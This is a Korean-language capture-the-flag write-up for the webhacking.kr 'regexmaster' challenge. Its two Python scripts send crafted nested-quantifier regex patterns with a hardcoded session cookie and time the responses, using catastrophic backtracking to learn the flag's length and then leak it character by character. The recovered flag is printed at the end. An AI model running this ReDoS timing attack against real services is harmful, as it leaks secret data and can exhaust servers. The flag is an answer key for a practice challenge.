

# [목차]
**1. [Description](#Description)**

**2. [Write-Up](#Write-Up)**

**3. [FLAG](#FLAG)**


***


# **Description**




# **Write-Up**

preg_match밖에 없어서 난감하지만, catastrophic backtracking을 이용하여 시간이 오래걸리는 문자는 패턴이 매칭되어서 FLAG로 처리하면 될 듯하다.

먼저 FLAG의 길이를 구하자.

> [ReDoS](https://speakerdeck.com/lmt_swallow/revisiting-redos-a-rough-idea-of-data-exfiltration-by-redos-and-side-channel-techniques)

> [regex101](https://regex101.com/)

```python
import requests
import time
import string

CHALLENGE   = 'http://regexmaster.webhacking.kr/'
SESSID      = '3rphaqro19ronfcjse1h047isp'
headers     = {'Cookie':'PHPSESSID='+SESSID}

for i in range(1, 50):
    pattern = '(((((((((((((((((((.*)*)*)*)*)*)*)*)*)*)*)*)*)*)*)*)*)*)*).{'+str(i)+'}$'
    url         = CHALLENGE + '?pattern=' + pattern
    s_time      = time.time()
    req         = requests.get(url=url, headers=headers)
    delay       = time.time() - s_time
    if delay < 1:
        print('flag length = {}'.format(i - 1))
        break

[Output]
flag length = 30
```

FLAG를 구하자.

```python
import requests
import time
import string

CHALLENGE   = 'http://regexmaster.webhacking.kr/'
SESSID      = '3rphaqro19ronfcjse1h047isp'
headers     = {'Cookie':'PHPSESSID='+SESSID}

flag_total_len   = 30
flag = 'FLAG{'
while len(flag) < 29:
    old_len = len(flag)
    for c in "_" + string.ascii_letters + string.digits:
        pattern     = flag + c + '.*(((((((((((((((((((.*)*)*)*)*)*)*)*)*)*)*)*)*)*)*)*)*)*)*).{'+str(flag_total_len - len(flag) - 1)+'}$'
        url         = CHALLENGE + '?pattern=' + pattern
        s_time      = time.time()
        req         = requests.get(url=url, headers=headers)
        delay       = time.time() - s_time
        if delay > 0.3:
            flag += c
            print('find = {}'.format(flag))
    if old_len == len(flag) :
        flag += '.'
        print('unknown : {}'.format(flag))
print('flag = {}'.format(flag+'}'))

[Output]
... 생략 ...
flag = FLAG{im_r.e.g.e.x_master.._..}
```

결과 값을 인증하여도 Invalid라고 나온다. "."이 나오는 곳은 특수문자일 듯 하다.

^, ? 등 시도해보았지만, 결과적으로는 "."을 "/"로 치환하면 점수를 획득할 수 있다.


# **FLAG**

**FLAG{im_r/e/g/e/x_master//_//}**